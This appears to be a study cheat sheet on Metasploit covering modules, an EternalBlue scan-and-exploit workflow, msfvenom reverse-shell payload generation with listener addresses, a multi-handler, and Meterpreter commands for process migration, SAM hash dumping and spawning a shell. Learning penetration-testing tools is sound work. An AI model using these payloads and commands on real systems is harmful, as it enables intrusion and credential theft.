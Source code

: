 Exploitation Framework


```bash
# start metasploit
msfconsole
# list directory structure
tree -L 1 INSTALL_DIR/embedded/framwork/modules
```

### Modules
Metasploit works by modules context
- auxiliary
- encoders
- evasion
- exploits 
- nops
- payloads
- post

```bash
# options
show options

# use a particular exploit/payload/auxiliary/post
use exploit/windows/smb/ms17_0010_eternalblue

# dynamic search command
```

- The `scanner/discovery/udp_sweep` module will allow you to quickly identify services running over the UDP (User Datagram Protocol).

### Payloads
There are two types of payloads
- Staged are sent to the target in two steps, an initial part is installed (stager) adn the requests the rest of the payload => Allows smaller initial size
- Inline payloads are sent in a single step
### Workspaces
Metasploit has a database function to simplify project management and avoid possible confusion when setting up parameter values.

```bash
# ADDING A WORKSPACE
msf6> workspace -a "workspace_name"
```

### Example Workflow
```bash
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 > hosts -R
msf6 > show options
msf6 > db_map 
msf6 > run
msf6 > exploit
# SERVICES STORED IN THE MSF DATABASE
msf6 > services -S netbios
```
### msfvenom
allows to generate payloads for all major Operating Systems, has access to all payloads 

```bash
#list payloads
msfvenom -l payloads
# list formats
msfvenom --list formats
# use base64 encoding
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
```

### handlers 
intercept incoming communications generated by the MSFvenom payloads


```bash
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
#multihandler that is compatible with all payloads as well as regular shells
use exploit/multi/handler

# linux executlable in the elf format(exe in windows)
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
# windows executable
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe


```


### Meterpreter
Is a C2 payload/agent that is cross compatible with multiple operating systems. It runs completely on memory and does not write anything to the disk
It uses a TLS **encrypted** communication channel to avoid IDS/IPD detection 


```bash
# meterpreter payloads/types
# load meterpreter payloads
msfvenom --list payloads | grep meterpreter

# get current user id
meterpreter > getuid || ps || 
meterpreter > migrate <PID> # process hijack
meterpreter > hashdump # dumps SAM database (Security Account Manager)
meterpreter > search -f <FILE_NAME>
meterpreter > shell # launches regular shell on target 

```